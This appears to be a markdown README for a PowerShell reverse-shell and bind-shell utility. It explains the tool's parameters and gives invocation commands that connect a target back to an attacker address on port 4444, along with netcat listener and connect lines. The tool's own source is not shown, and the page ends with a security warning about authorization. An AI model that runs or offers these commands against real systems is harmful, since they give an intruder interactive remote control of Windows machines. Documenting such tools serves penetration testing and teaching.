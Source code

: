 ```yaml
---

# PowerShell Reverse Shell Script - Documentation

## Overview

This script, developed by **dpckah001**, is a PowerShell-based reverse shell and bind shell utility. It allows you to remotely control a Windows machine by connecting back to an attacker machine (reverse shell) or by listening for incoming connections (bind shell).

## Features

- **Reverse Shell**: The target system connects back to the attacker's machine, allowing the attacker to send commands and receive output.
- **Bind Shell**: The target system opens a port and listens for incoming connections from the attacker.
- Compatible with standard tools such as Netcat.
- Customizable IP address and port.
- Real-time command execution with interactive PowerShell prompt.

## Usage

The script supports two primary modes:
- **Reverse Shell**: Connects back to a listener running on the attacker's machine.
- **Bind Shell**: Opens a port on the target system and waits for incoming connections.

### Parameters

- `-IPAddress`: The IP address to connect to (for reverse shell).
- `-Port`: The port to connect to or listen on.
- `-Reverse`: Switch to enable reverse shell mode.
- `-Bind`: Switch to enable bind shell mode.

### Requirements

- Windows system with PowerShell support.
- A listener on the attacker's machine (Netcat or similar).

## Examples

### Reverse Shell

In this example, the script runs on the target machine and connects back to the attacker's machine at IP `192.168.1.100` on port `4444`.

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
```

On the attacker's machine, you need to set up a listener:

```bash
nc -lvnp 4444
```

Once the connection is established, the attacker can interact with the target machine using PowerShell commands.

### Bind Shell

This example demonstrates running the script in bind mode, where it listens for incoming connections on port `4444`.

```powershell
Invoke-PowerShellTcp -Bind -Port 4444
```

The attacker can then connect to the target machine's IP and port:

```bash
nc <target IP address> 4444
```

Once connected, the attacker will receive an interactive PowerShell shell.

## How to Use

1. **Reverse Shell**: Use the `-Reverse` switch along with the attacker's IP and port to connect back.
   
   Example:
   ```powershell
   Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
   ```

2. **Bind Shell**: Use the `-Bind` switch to listen on a specified port.
   
   Example:
   ```powershell
   Invoke-PowerShellTcp -Bind -Port 4444
   ```

3. On the attacker's machine, use `Netcat` (or a similar tool) to set up a listener for reverse shells or connect to bind shells.

4. After the connection is established, commands can be sent to the target system, and results will be returned interactively.

## Error Handling

If any issues arise during the connection or execution of commands, the script will attempt to handle errors and output relevant error messages. Examples of potential errors include:
- Failed connection to the target IP and port.
- Command execution errors on the target system.

## Notes

- **Security Warning**: This script is a potentially dangerous tool if used maliciously. Ensure you have authorization to run this script on any target system.
- **Legal Use**: This script should only be used for legitimate security assessments and with permission from the system's owner.

## Credits

Developed by **dpckah001**.

---
```


This `.md` file explains how to use the script, provides examples, and includes detailed information on parameters and error handling.